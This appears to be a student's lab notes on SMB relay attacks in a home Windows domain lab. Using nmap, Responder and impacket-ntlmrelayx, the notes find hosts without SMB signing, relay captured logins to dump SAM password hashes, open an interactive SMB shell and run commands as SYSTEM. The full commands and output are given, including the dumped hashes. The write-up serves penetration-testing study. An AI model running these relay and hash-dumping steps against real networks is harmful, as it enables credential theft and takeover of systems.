

# SMB Relay Attacks Lab

This chapter puts the concepts presented in the previous one into practice
without adding much additional knowledge.

### Identifying hosts that do not enforce SMB signing

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ nmap --script=smb2-security-mode.nse -p445 10.0.2.0/24 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-31 10:42 EDT
Nmap scan report for 10.0.2.1
Host is up (0.00020s latency).

PORT    STATE  SERVICE
445/tcp closed microsoft-ds
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)

Nmap scan report for 10.0.2.2
Host is up (0.00022s latency).

PORT    STATE  SERVICE
445/tcp closed microsoft-ds
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)

Nmap scan report for 10.0.2.3
Host is up (0.00019s latency).

PORT    STATE    SERVICE
445/tcp filtered microsoft-ds
MAC Address: 08:00:27:0C:71:8F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for 10.0.2.4
Host is up (0.00031s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:52:4F:78 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap scan report for 10.0.2.6
Host is up (0.00038s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:16:45:F8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap scan report for blackpearl.tcm (10.0.2.15)
Host is up (0.00037s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:99:A3:3E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap scan report for 10.0.2.5
Host is up (0.000049s latency).

PORT    STATE  SERVICE
445/tcp closed microsoft-ds

Nmap done: 256 IP addresses (7 hosts up) scanned in 2.53 seconds
```

Port 445 is used for SMB. The switch `-Pn` is used to skip host detection. It
is advisable to use it in conjunction with `nmap` scripts, particularly if we
know the host is up. There are also other scripts in `nmap` that can be used
for all sorts of things, e.g. vulnerability scanning for EternalBlue.

We have found two IPs with `"Message signing enabled but not required"`:
`10.0.2.4` and `10.0.2.6`. We store them in a file called `targets.txt` with
`echo` or `vim`. TCM mentions using `grep`, but it does not seem straightforward
to write that command since IP and `"Message signing..."` do not appear on the
same line of output.


### Changeing Responder configuration and start responder

We can modify the configuration of `responder` with

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ sudo vim /etc/responder/Responder.conf
```

We need to change `SMB` and `HTTP` to `Off` for the relay attack and to `On`
for LLMNR poisoning.

We can double-check the success of our action by starting `responder` the same
way as we did for LLMNR poisoning, again without the `-w` switch, which is
incompatible with `-P`:

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ sudo responder -I eth0 -dPv 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [ON]
    SMB server                 [OFF]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.5]
    Responder IPv6             [fe80::894a:2922:b342:85c0]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

(...)
```


### Starting ntlmrelayx.py and capturing SAM hashes

`ntlmrelayx.py` was already installed on Kali Linux under
`impacket-ntlmrelayx.py`, it was not necessary to install it manually. The
switch `-tf <file>` is used to define the target file. With this, `ntlmrelay`
will just run and wait for traffic to relay to the target machines.

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled

[*] Servers started, waiting for connections

(...)
```

**Note:** The older version `0.9.19` of `ntlmrelayx` works reliably, whereas
newer versions break from time to time.

Now we need to wait for actual events so that `responder` can intercept the
traffic and relay the credentials to the host via `ntlmrelayx.py`. We log into
`THEPUNISHER` as user `fcastle` and navigate to our attack machine in the
Windows Explorer, in this case `10.0.2.5`.



This leads to the following output of `ntlmrelayx`:

```
(...)

[*] Servers started, waiting for connections
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL/FCASTLE SUCCEED
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.6
[-] Authenticating against smb://10.0.2.6 as MARVEL/FCASTLE FAILED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-8 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-9 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!
[*] Target system bootKey: 0x54c9af8a432c81a94876693eea660525
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Done dumping SAM hashes for host: 10.0.2.4
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

The really valuable information here is at the end of the output. The lines

```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Done dumping SAM hashes for host: 10.0.2.4
```

include a dump of the SAM file of the workstation `10.0.2.4`. We can store this
information in a file and then crack the hashes offline or use them otherwise.

The relay to `10.0.2.6` failed since the request was sent from this machine
(`THEPUNISHER`). The SAM dump came from the workstation `SPIDERMAN` with IP
`10.0.2.4`.


### Getting an interactive shell with ntlmrelayx.py

To get an interactive shell with `ntlmrelayx`, we just need to add the switch
`-i` to the previously used command. Once `ntlmrelayx` is waiting for traffic,
we need to try to connect to our attack machine from the workstation
`THEPUNISHER` again to create traffic.

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support -i
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled

[*] Servers started, waiting for connections
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL/FCASTLE SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.6
[-] Authenticating against smb://10.0.2.6 as MARVEL/FCASTLE FAILED
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!

```

Note the IP and port number in the output above: `"Started interactive SMB
client shell via TCP on 127.0.0.1:11000"`. We can then open a new tab and bind
(connect) to the shell with netcat.

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ nc 127.0.0.1 11000        
Type help for list of commands
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 lls {dirname} - lists all the files on the local filesystem.
 tree {filepath} - recursively lists all files in folder and sub folders
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)


# info
Version Major: 10
Version Minor: 0
Server Name: SPIDERMAN
Server Comment: 
Server UserPath: c:\
Simultaneous Users: 20
# shares
ADMIN$
C$
IPC$
# use c$
# ls
drw-rw-rw-          0  Sat Jul 26 01:35:07 2025 $Recycle.Bin
drw-rw-rw-          0  Thu Jul 24 03:14:40 2025 Documents and Settings
-rw-rw-rw-       8192  Thu Jul 31 10:41:49 2025 DumpStack.log.tmp
-rw-rw-rw- 1476395008  Thu Jul 31 10:41:49 2025 pagefile.sys
drw-rw-rw-          0  Thu Jul 24 04:12:00 2025 PerfLogs
drw-rw-rw-          0  Tue Jul 29 15:01:54 2025 Program Files
drw-rw-rw-          0  Thu Jul 24 04:12:00 2025 Program Files (x86)
drw-rw-rw-          0  Sat Jul 26 01:33:23 2025 ProgramData
drw-rw-rw-          0  Thu Jul 31 10:42:06 2025 Recovery
-rw-rw-rw-  268435456  Thu Jul 31 10:41:49 2025 swapfile.sys
drw-rw-rw-          0  Wed Jul 23 18:14:51 2025 System Volume Information
drw-rw-rw-          0  Sat Jul 26 01:34:20 2025 Users
drw-rw-rw-          0  Fri Jul 25 23:51:18 2025 Windows
#
```

This works only when we connect to our attack machine, not when we try to
access SMB shares over the Windows network. **Why??**


### Executing a command via ntlmrelayx

We can directly execute a command on the victim machine without invoking an
interactive shell by using the `-c <command>` option. Again, we need to
navigate to our attack machine from `THEPUNISHER` to generate the necessary
traffic.

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled

[*] Servers started, waiting for connections
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL/FCASTLE SUCCEED
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.6
[-] Authenticating against smb://10.0.2.6 as MARVEL/FCASTLE FAILED
[*] Service RemoteRegistry is in stopped state
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Executed specified command on host: 10.0.2.4
nt authority\system
```

The command `whoami` was executed and delivered the output `nt
authority\system`. This was just a proof of concept. One could also create a
new user to establish a foothold on the attacked machine.

The command `impacket-ntlmrelayx --help` shows a very long help explaining all
available options -- too much to include here.


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
